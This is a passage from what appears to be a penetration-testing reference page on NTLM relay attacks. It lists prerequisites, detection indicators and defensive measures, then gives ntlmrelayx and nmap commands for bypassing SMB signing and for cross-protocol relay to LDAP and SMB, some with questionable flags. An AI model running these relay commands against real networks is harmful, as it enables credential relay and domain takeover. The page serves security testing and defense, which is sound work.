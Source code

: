 ## Prerequisites
- Network access to target environment
- Ability to trigger NTLM authentication
- SMB signing disabled or not enforced on targets
- Knowledge of target IP addresses or hostnames

## Detection Considerations
- **Network Indicators**: Unusual SMB/HTTP traffic patterns between hosts
- **Authentication Patterns**: NTLM authentication from unexpected sources
- **Event Logs**: Event ID 4624/4625 (logon success/failure) with unusual patterns
- **Process Indicators**: Unexpected command execution via relayed sessions
- **Time Correlation**: Authentication attempts correlating with external triggers

## Defensive Measures
- **SMB Signing**: Enable and enforce SMB signing on all systems
- **LDAP Signing**: Enable LDAP signing and channel binding
- **EPA (Extended Protection)**: Enable Extended Protection for Authentication
- **Network Segmentation**: Limit SMB traffic between network segments
- **Monitoring**: Implement monitoring for cross-protocol authentication
- **Patch Management**: Keep systems updated to prevent relay vulnerabilities
- **Authentication Policies**: Implement strong authentication policies

## Bypass Techniques

### SMB Signing Bypass
```bash
# Check if SMB signing is required
nmap -p 445 --script smb2-security-mode target.domain.com

# Use remove-mic to bypass some protections
python3 ntlmrelayx.py -t target.domain.com --remove-mic -smb2support
```

### Cross-Protocol Attacks
```bash
# HTTP to LDAP relay
python3 ntlmrelayx.py -t ldap://dc.domain.com -w

# SMTP to SMB relay
python3 ntlmrelayx.py -t smb://target.domain.com --smtp
```

## Common Errors and Troubleshooting

### SMB Signing Enforced
```
[-] SMB Signing is required on target, cannot relay
Solution: Find targets without SMB signing or use different protocols
```
